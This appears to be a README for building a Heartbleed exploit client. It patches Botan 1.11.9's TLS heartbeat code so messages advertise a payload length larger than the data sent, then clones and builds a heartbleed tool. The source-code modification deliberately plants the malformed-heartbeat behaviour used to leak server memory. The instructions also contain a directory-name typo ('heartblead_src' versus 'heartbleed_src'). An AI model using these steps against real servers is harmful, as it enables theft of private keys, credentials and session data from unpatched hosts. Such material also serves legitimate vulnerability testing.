 # Botan
tested version: 1.11.9

download here: http://files.randombit.net/botan/Botan-1.11.9.tgz

> tar xfvz Botan-1.11.9.tgz
> cd Botan-1.11.9/

apply the following changes (no patchfiles sorry)

- src/lib/tls/tls_policy.h:81 replace with:

> virtual bool negotiate_heartbeat_support() const { return true; }

- src/lib/tls/tls_heartbeats.h add a new private member:

> size_t m_payload_len;

- src/lib/tls/tls_heartbeats.cpp: ADD to constructor of 'Heartbeat_Message'

> m_payload_len(payload_len)

- src/lib/tls/tls_heartbeats.cpp: REMOVE the initialization of m_payload in the constructor of 'Heartbeat_Message'

> m_payload(payload, payload + payload_len)

- replace

> send_buf[1] = get_byte<u16bit>(0, m_payload.size());
> send_buf[2] = get_byte<u16bit>(1, m_payload.size());

with

> send_buf[1] = get_byte<u16bit>(0, m_payload_len);
> send_buf[2] = get_byte<u16bit>(1, m_payload_len);

> ./configure --prefix=/your/install/prefix/here (in my case '/opt/heartbleed')
> make
> make install
> git clone https://github.com/DanielAW/heartbleed.git
> mv heartbleed heartblead_src
> mkdir heartbleed
> cd heartbleed
> cmake ../heartbleed_src
> make
